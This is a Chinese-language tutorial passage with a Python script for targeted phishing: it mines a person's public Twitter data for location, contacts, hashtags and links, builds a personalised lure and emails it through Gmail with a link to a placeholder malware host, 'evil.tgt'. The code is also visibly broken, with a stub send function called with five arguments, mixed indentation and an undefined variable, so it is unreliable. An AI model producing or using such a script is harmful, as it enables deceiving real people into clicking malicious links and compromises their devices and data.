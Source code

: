 为了降低被识破的概率，只生成一段非常简单的含有恶意代码的文本，把它作为邮件的正文。程序会根据它所拥有的数据，随机生成文本。具体步骤是：选择一个虚拟的发信人电子邮箱地址，指定一个主题，生成正文文本，然后发送电子邮件。

脚本利用目标对象留在 Twitter 中可以公开访问的信息对他进行攻击。根据它会找到关于目标对象的地理位置信息、@过的用户、hash 标签以及链接，脚本就会生成和发送一个带有恶意链接的电子邮件，等待目标对象去点击。

```python
import smtplib
import optparse
from email.mime.text import MIMEText
from twitterCLass import *
from random import choice
def send_main():
    pass
    
def main():
    parser = optparse.OptionParser("usage%prog -u<twitter target> -t<target email> -l <gmail login> -p <gmail password>")
    parser.add_option("-u", dest="handle", type="string", help="specify twitter handle")
    parser.add_option("-t", dest="tgt", type="string", help="specify target email")
    parser.add_option("-l", dest="user", type="string", help="specify gmail login")
    parser.add_option("-p", dest="pwd", type="string", help="speicfy gmail password")
    options, args = parser.parse_args()
    handle = options.handle
    tgt = options.tgt
    user = options.user
    pwd = options.pwd
    if handle == None or tgt == None or user == None or pwd == None:
        print(parser.usage)
        exit(-1)
    print("[+] Fetching tweets from: {}".format(handle))
    spam_tgt = ReconPerson(handle)
    spam_tgt.get_tweets()
    print("[+] Fetching interests from: {}".format(handle))
    interests = spam_tgt.find_interests()
    print("[+] Fetching location information from: {}".format(handle))
    location = spam_tgt.twitter_locate("mlb-cities.txt")
    spam_msg = "Dear {},".format(tgt)
    if location != None:
        rand_loc = choice(location)
        spam_msg += " Its me from {}.".format(rand_loc)
	if interests["users"] != None:
        rand_user = choice(interests["users"])
        spam_msg += " {} said to say hello.".format(rand_user)
    if interests["hashtags"] != None:
        rand_hash = choice(interests["hashtags"])
        spam_msg += " Did you see all the fuss about {}?".format(randHash)
	if interests["links"] != None:
        rand_link = choice(interests["links"])
        spam_msg += " I really liked your link to: {}.".format(rand_link)
	spam_msg += " Check out my link to http://evil.tgt/malware"
    print("[+] Sending Msg: {}".format(spam_msg))
    send_main(user, pwd, tgt, "Re: Important", spam_msg)
```

